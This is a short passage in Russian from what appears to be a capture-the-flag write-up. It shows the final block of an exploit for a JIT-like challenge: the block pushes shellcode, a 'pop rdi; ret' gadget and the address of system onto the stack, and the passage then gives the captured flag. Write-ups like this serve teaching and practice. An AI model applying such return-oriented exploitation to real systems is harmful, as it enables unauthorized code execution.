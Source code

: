 Придется делать `push` дважды. Таким образом, последний блок эксплоита заменяется на:

```asm
// Кладем на стек подряд шелл-код, адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
pop d
pop d
mov d 103
push d
mov d 7020098271757754723
push d
mov d c
add d 1
push b
push d
push a
push c
```

Флаг: **ugra_friendly_reminder_that_web_browsers_use_jit_too_mb138bt6eu22**.

